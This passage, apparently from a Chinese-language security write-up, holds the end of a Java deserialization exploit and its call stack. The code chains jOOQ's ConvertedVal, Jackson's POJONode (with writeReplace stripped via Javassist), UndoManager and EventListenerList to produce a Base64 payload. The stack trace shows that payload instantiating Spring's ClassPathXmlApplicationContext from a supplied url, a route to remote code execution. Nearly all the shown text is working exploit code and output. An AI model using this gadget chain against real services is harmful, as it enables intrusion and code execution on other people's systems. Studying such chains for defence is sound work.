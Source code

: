 ```java
        Constructor constructor3 = clazz3.getDeclaredConstructor(Object.class, DataType.class, boolean.class);
        constructor3.setAccessible(true);
        Object val = constructor3.newInstance("whatever", tableDataType, false);

        Class clazz4 = Class.forName("org.jooq.impl.ConvertedVal");
        Constructor constructor4 = clazz4.getDeclaredConstructors()[0];
        constructor4.setAccessible(true);
        Object convertedVal = constructor4.newInstance(val, tableDataType);

        Object value = url;
        Class type = ClassPathXmlApplicationContext.class;

        ReflectUtil.setFieldValue(val, "value", value);
        ReflectUtil.setFieldValue(tableDataType, "uType", type);

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        POJONode pojoNode = new POJONode(convertedVal);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) ReflectUtil.getFieldValue(undoManager, "edits");
        vector.add(pojoNode);
        ReflectUtil.setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});

        byte[] data = SerializeUtil.serialize(eventListenerList);
        System.out.println(Base64.getEncoder().encodeToString(data));

        SerializeUtil.deserialize(data);

    }

}
```
调用栈：
```
<init>:85, ClassPathXmlApplicationContext (org.springframework.context.support)
newInstance0:-1, NativeConstructorAccessorImpl (jdk.internal.reflect)
newInstance:77, NativeConstructorAccessorImpl (jdk.internal.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (jdk.internal.reflect)
newInstanceWithCaller:499, Constructor (java.lang.reflect)
newInstance:480, Constructor (java.lang.reflect)
from:1401, Convert$ConvertAll (org.jooq.impl)
convert0:443, Convert (org.jooq.impl)
convert:518, Convert (org.jooq.impl)
convert:771, AbstractDataType (org.jooq.impl)
convert:139, DefaultDataType (org.jooq.impl)
getValue:90, ConvertedVal (org.jooq.impl)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:77, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:568, Method (java.lang.reflect)
serializeAsField:688, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:772, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1150, SerializerProvider (com.fasterxml.jackson.databind)
serialize:115, POJONode (com.fasterxml.jackson.databind.node)
```